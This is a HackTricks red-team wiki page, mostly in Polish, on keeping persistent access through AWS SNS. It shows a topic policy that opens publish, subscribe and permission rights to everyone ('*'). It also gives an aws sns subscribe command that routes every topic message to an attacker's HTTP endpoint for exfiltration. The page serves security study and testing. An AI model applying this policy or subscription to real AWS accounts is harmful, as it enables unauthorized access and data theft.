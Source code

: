 # AWS - SNS Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-services/aws-sns-enum.md" %}
[aws-sns-enum.md](../aws-services/aws-sns-enum.md)
{% endcontent-ref %}

### Persistence

Podczas tworzenia **tematu SNS** musisz wskazać w polityce IAM **kto ma dostęp do odczytu i zapisu**. Możliwe jest wskazanie zewnętrznych kont, ARN ról lub **nawet "\*"**.\
Poniższa polityka daje wszystkim w AWS dostęp do odczytu i zapisu w temacie SNS o nazwie **`MySNS.fifo`**:
```json
{
"Version": "2008-10-17",
"Id": "__default_policy_ID",
"Statement": [
{
"Sid": "__default_statement_ID",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"SNS:Publish",
"SNS:RemovePermission",
"SNS:SetTopicAttributes",
"SNS:DeleteTopic",
"SNS:ListSubscriptionsByTopic",
"SNS:GetTopicAttributes",
"SNS:AddPermission",
"SNS:Subscribe"
],
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
"Condition": {
"StringEquals": {
"AWS:SourceOwner": "318142138553"
}
}
},
{
"Sid": "__console_pub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Publish",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
},
{
"Sid": "__console_sub_0",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "SNS:Subscribe",
"Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
}
]
}
```
### Utwórz subskrybentów

Aby kontynuować eksfiltrację wszystkich wiadomości ze wszystkich tematów, atakujący może **utworzyć subskrybentów dla wszystkich tematów**.

Zauważ, że jeśli **temat jest typu FIFO**, można używać tylko subskrybentów korzystających z protokołu **SQS**.
```bash
aws sns subscribe --region <region> \
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
